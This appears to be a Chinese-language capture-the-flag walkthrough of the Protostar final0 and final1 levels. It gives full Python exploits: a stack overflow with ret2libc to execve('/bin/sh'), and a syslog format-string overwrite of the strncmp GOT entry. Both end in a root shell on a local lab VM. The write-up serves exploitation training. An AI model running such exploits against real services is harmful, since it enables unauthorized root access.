


> The levels to be exploited can be found in the /opt/protostar/bin directory.
> 
> The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p.

## Final 0

> You may wish to use a toupper() proof shellcode

```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer); // reads a line from stdin into the buffer until either a terminating newline or EOF, which it replaces with '\0'

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

- `gets` 不处理 `\0`，而 `strlen` 通过 `\0` 来计算字符串的长度，因此可以通过前置 `\0` 来绕过 `toupper`
- `Core files will be in /tmp` 核心转储文件（`man core`）

    > The default action of **certain signals** is to cause a process to **terminate** and produce a core dump file, a disk file containing an image of the process's memory at the time of termination.

- 常见 Signal 如下

    Signal | Action | Comment
    -|-|-
    SIGINT | Term | Interrupt from keyboard
    SIGILL | Core | Illegal Instruction
    SIGSEGV | Core | Invalid memory reference

- 首先通过缓冲区溢出来获得核心转储文件用于调试并确定溢出点

    ```bash
    $ python -c "print 'a'*512 + '\x00'*4 + 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll'" | nc localhost 2995
    $ ls /tmp/core*
    /tmp/core.11.final0.18906
    $ su root
    # gdb final0 /tmp/core.11.final0.18906
    Core was generated by `/opt/protostar/bin/final0`.
    Program terminated with signal 11, Segmentation fault.
    #0  0x65656565 in ?? () # eeee
    ```
  
- 也可以通过进程调试

    ```bash
    # gdb -p `pidof final0`
    accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
    64	in ../sysdeps/unix/sysv/linux/i386/socket.S
    (gdb) set follow-fork-mode child  # 跟踪子进程
    Current language:  auto
    The current source language is "auto; currently asm".
    (gdb) c
    Continuing.
    [New process 19058] # another terminal sends the payload

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 19058]
    0x65656565 in ?? ()
    ```

- 查看 ret2libc 函数地址

    ```bash
    # gdb -p `pidof final0`
    accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
    64	in ../sysdeps/unix/sysv/linux/i386/socket.S
    (gdb) info functions @plt
    All functions matching regular expression "@plt":

    Non-debugging symbols:
    0x080489fc  __errno_location@plt
    0x08048a0c  srand@plt
    0x08048a1c  open@plt
    ...
    0x08048c0c  execve@plt
    ...
    0xb7fe380c  ___tls_get_addr@plt
    0xb7fe381c  free@plt
    Current language:  auto
    The current source language is "auto; currently asm".
    ```

- 观察如何构造栈来正确地调用 `execve()`

    ```c
    void main() {
        execve("/bin/sh", 0, 0);
        // int execve(const char *filename, char *const argv[], char *const envp[]);
        // no arguments and environment variables
    }
    ```

    ```bash
    $ gcc execve_example.c -o execve_example
    $ gdb ./execve_example
    (gdb) set disassembly-flavor intel
    (gdb) disassemble main 
    Dump of assembler code for function main:
    0x080483c4 <main+0>:	push   ebp
    0x080483c5 <main+1>:	mov    ebp,esp
    0x080483c7 <main+3>:	and    esp,0xfffffff0
    0x080483ca <main+6>:	sub    esp,0x10
    0x080483cd <main+9>:	mov    DWORD PTR [esp+0x8],0x0
    0x080483d5 <main+17>:	mov    DWORD PTR [esp+0x4],0x0
    0x080483dd <main+25>:	mov    DWORD PTR [esp],0x80484b0
    0x080483e4 <main+32>:	call   0x80482fc <execve@plt>
    0x080483e9 <main+37>:	leave  
    0x080483ea <main+38>:	ret    
    End of assembler dump.
    (gdb) break *0x080483e4
    Breakpoint 1 at 0x80483e4
    (gdb) r
    Starting program: /tmp/execve_example 

    Breakpoint 1, 0x080483e4 in main ()
    (gdb) si
    0x080482fc in execve@plt ()
    (gdb) x/8wx $esp
    0xbffff69c:	0x080483e9	0x080484b0	0x00000000	0x00000000
    0xbffff6ac:	0xb7fd7ff4	0x08048400	0x00000000	0xbffff738
    (gdb) x/2i 0x080483e9
    0x80483e9 <main+37>:	leave  
    0x80483ea <main+38>:	ret    
    (gdb) x/s 0x080484b0
    0x80484b0:	 "/bin/sh"
    ```

- 获取 `/bin/sh` 在 libc 中的偏移

    ```bash
    $ ldd execve_example    # get paths to all loaded libraries
        linux-gate.so.1 =>  (0xb7fe4000)
        libc.so.6 => /lib/libc.so.6 (0xb7e99000)
        /lib/ld-linux.so.2 (0xb7fe5000)
    $ grep -a -b -o /bin/sh /lib/libc.so.6
    1176511:/bin/sh
    # -a, --text                equivalent to --binary-files=text
    # -b, --byte-offset         print the byte offset with output lines
    # -o, --only-matching       show only the part of a line matching PATTERN
    ```

- 查看 libc 的起始地址

    ```bash
    # pidof final0
    1514
    # cat /proc/1514/maps
    08048000-0804a000 r-xp 00000000 00:10 2220       /opt/protostar/bin/final0
    0804a000-0804b000 rwxp 00001000 00:10 2220       /opt/protostar/bin/final0
    b7e96000-b7e97000 rwxp 00000000 00:00 0 
    b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
    b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
    b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
    b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
    b7fd9000-b7fdc000 rwxp 00000000 00:00 0 
    b7fe0000-b7fe2000 rwxp 00000000 00:00 0 
    b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
    b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
    b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
    b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
    bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
    ```

### Exploit

```py
import struct, socket, telnetlib

padding = 'a' * 512 + '\x00' * 4 + 'aaaabbbbccccdddd'
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 2995))

execve = struct.pack('<I', 0x08048c0c)
binsh = struct.pack('<I', 1176511 + 0xb7e97000)
exploit = padding + execve + 'RETA' + binsh + '\x00' * 8

s.send(exploit + '\n')

t = telnetlib.Telnet()
t.sock = s
t.interact() # 使用 telnetlib 切换到交互模式
```

```bash
$ python final.py 
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
exit
*** Connection closed by remote host ***
```

## Final 1

> The ‘already written’ bytes can be variable, and is based upon the length of the IP address and port number.

```c
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
  // void syslog(int priority, const char *format, ...);
  // buf is the format string! 0v0
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

  printf("[final1] $ ");

  while(fgets(line, sizeof(line)-1, stdin)) {
      trim(line);
      if(strncmp(line, "username ", 9) == 0) {
          strcpy(username, line+9);
      } else if(strncmp(line, "login ", 6) == 0) {
          if(username[0] == 0) {
              printf("invalid protocol\n");
          } else {
              logit(line + 6);
              printf("login failed\n");
          }
      }
      printf("[final1] $ ");
  }
}

void getipport()
{
  int l;
  struct sockaddr_in sin;
//   struct sockaddr_in {
//     sa_family_t    sin_family; /* address family: AF_INET */
//     in_port_t      sin_port;   /* port in network byte order */
//     struct in_addr sin_addr;   /* internet address */
//   };

//   /* Internet address. */
//   struct in_addr {
//     uint32_t       s_addr;     /* address in network byte order */
//   };

  l = sizeof(struct sockaddr_in);
  // int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
  // getpeername()  returns  the address of the peer connected to the socket sockfd, in the buffer pointed to by addr.
  if(getpeername(0, &sin, &l) == -1) {
      err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  getipport();
  parser();
}
```

- 正确使用 `login` 后可以在 `/var/log/syslog` 中看到登录尝试日志<br>
![Login from 127.0.0.1:34101 as [yanhui] with password [test]](img/final0.jpg)

- 看上去似乎没有可控制的 `printf`，但 `syslog` 类似于 `printf`，第二个参数为格式化字符串，因而可以通过 `username` 和 `pw` 来控制，接下来可以修改 `strncmp` 函数 GOT 表的条目地址
- 获取 `strncmp` 函数 GOT 表的条目地址

    ```bash
    # gdb --pid `pidof final1`
    (gdb) info functions strncmp
    All functions matching regular expression "strncmp":

    File strncmp.c:
    int *__GI_strncmp(const char *, const char *, size_t);

    File ../sysdeps/i386/i486/bits/string.h:
    int __strncmp_g(const char *, const char *, size_t);

    Non-debugging symbols:
    0x08048d9c  strncmp
    0x08048d9c  strncmp@plt
    Current language:  auto
    The current source language is "auto; currently asm".
    (gdb) x/2i 0x08048d9c
    0x8048d9c <strncmp@plt>:	jmp    *0x804a1a8
    0x8048da2 <strncmp@plt+6>:	push   $0x160
    (gdb) x/wx 0x804a1a8
    0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x08048da2
    ```

- 获取 `system` 函数的地址
    - > On a real modern system you would first have to leak addresses from memory in order to calculate offsets and break ASLR

    ```bash
    (gdb) x system  # part of libc
    0xb7ecffb0 <__libc_system>:	0x890cec83
    ```

- 观察输入字符串在栈中的位置

    ```bash
    $ nc 127.0.0.1 2994
    [final1] $ username AAAA %x %x %x %x %x %x %x %x
    [final1] $ login BBBB %x %x %x %x %x %x %x %x
    login failed
    [final1] $ ^C
    ```

    

- 最短 `hostname` 为 `x.x.x.x:x`（长度为 $9$），最长 `hostname` 为 `xxx.xxx.xxx.xxx:xxxxx`（长度为 $21$），为了对齐，需要进行填充，根据 `hostname` 的长度范围可以统一填充到 $24$ 字节，这样一来就可以固定写入第 $17$ 个参数所指向的地址

    ```py
    import socket, struct

    def read_util(check):
        buf = ''
        while check not in buf:
            buf += s.recv(1)
        return buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('localhost', 2994))

    ip, port = s.getsockname()
    hostname = ip + ':' + str(port) # 降低变长 hostname 的影响
    pad = 'A' * (24 - len(hostname))
    username = pad + 'BBBB' + '%08x ' * 20
    login = 'CCCC'

    print read_util('[final1] $')
    s.send('username ' + username + '\n')
    print read_util('[final1] $')
    s.send('login ' + login + '\n')
    print read_util('[final1] $')
    ```

    

- 接下来查看已打印字符数量，并确定剩余需要字符的数量

    ```py
    import socket, struct

    def read_util(check):
        buf = ''
        while check not in buf:
            buf += s.recv(1)
        return buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('localhost', 2994))

    strncmp = struct.pack('I', 0x804a1a8)
    ip, port = s.getsockname()
    hostname = ip + ':' + str(port)
    pad = 'A' * (24 - len(hostname))
    username = pad + 'BBBB' + strncmp + '%18$n'
    login = 'CCCC'

    print read_util('[final1] $')
    s.send('username ' + username + '\n')
    print read_util('[final1] $')
    s.send('login ' + login + '\n')
    print read_util('[final1] $')
    raw_input('waiting... hit [enter]')
    ```

    ```bash
    $ python final.py 
    [final1] $
    [final1] $
    login failed
    [final1] $
    waiting... hit [enter]

    # open another terminal
    # pidof final1
    21600 1516
    # gdb --pid 21600
    (gdb) x/wx 0x804a1a8
    0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:	0x00000030
    Current language:  auto
    The current source language is "auto; currently asm".
    ```

### Exploit

```py
import socket, struct, telnetlib

def read_util(check):
    buf = ''
    while check not in buf:
        buf += s.recv(1)
    return buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 2994))

strncmp_got = 0x804a1a8

ip, port = s.getsockname()
hostname = ip + ':' + str(port)
pad = 'A' * (24 - len(hostname))
username = pad + struct.pack('I', strncmp_got) + struct.pack('I', strncmp_got + 2) + '%65408x' + '%17$n' + '%47164x' + '%18$n'
# 65408 = 0xffb0 - 0x30
# 47164 = 0xb7ec - 0xffb0
login = 'CCCC'

print read_util('[final1] $')
s.send('username ' + username + '\n')
print read_util('[final1] $')
s.send('login ' + login + '\n')
print read_util('[final1] $')
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

```bash
$ python final.py 
[final1] $
 [final1] $
 login failed
[final1] $
 id
uid=0(root) gid=0(root) groups=0(root)
[final1] $ whoami
root
```